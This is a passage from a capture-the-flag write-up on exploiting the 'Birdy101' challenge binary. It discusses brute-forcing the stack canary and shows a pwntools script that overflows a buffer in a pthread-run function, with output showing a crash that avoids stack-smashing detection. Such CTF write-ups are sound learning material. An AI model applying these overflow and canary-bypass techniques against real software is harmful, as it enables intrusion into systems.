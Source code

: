 Using the fact that the canary is on the stack, we might be able to "beat" ASLR and leak it using that method.

Sadly for us, the value of `name` is initiated as  `buffer` (pointer to the first char).
That means that there is a buffer of `256` characters above the location the `name` variable holds (aka, the `buffer` variable), meaning that the location of the canary is bigger than `location_of_buffer + 256` or, in other words, more than one byte needs to be changed :(

using `gdb` I saw that the  stack canary's location always ends with an 8
(I put a breakpoint at the end of  `register_user` and looked at the location of `$rbp-24`)
*for example* `0x7fffffffe208`.

That means that we need to bruteforce one and a half bytes, or in other words 12 bits.

That's a `1/4096` chance!
I didn't want to spam the servers so I opened a ticket and turns out that's not the intended solution. Sad :(

## Exploiting the `vuln/notepad` functions
One weird thing that happens in the `vuln` function is the initiation of a new pthread. I started searching for `pthread canary bof bypass` or other bullshit on google and I found stuff I didn't really understand about changing the canary and overwriting `TLS`, but than I realised that I didn't even try to run the function and overflow it!

I created a quick script
```python
from pwn import *

file = "./Birdy101"

elf = ELF(file)


con = process("./Birdy101")

# We still don't use it. just something that wont crash
con.send(p64(elf.symbols["got.printf"]))

con.send(cyclic(0x1000))

con.interactive()
```

And something super interesting happend, I didn't get a `*** stack smashing detected ***: terminated` message, and the program ended with `SIGSEGV`
```bash
$ python exploit.py
[*] '/tmp/a/Birdy101'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './Birdy101': pid 13298
[*] Switching to interactive mode
What is your name? Welcome 0\x10@
[Under construction] - This section is underconstruction and only allows a single note to be kept in memory
Enter the contents you want to store: [*] Got EOF while reading in interactive
$
[*] Process './Birdy101' stopped with exit code -11 (SIGSEGV) (pid 13298)
[*] Got EOF while sending in interactive
```

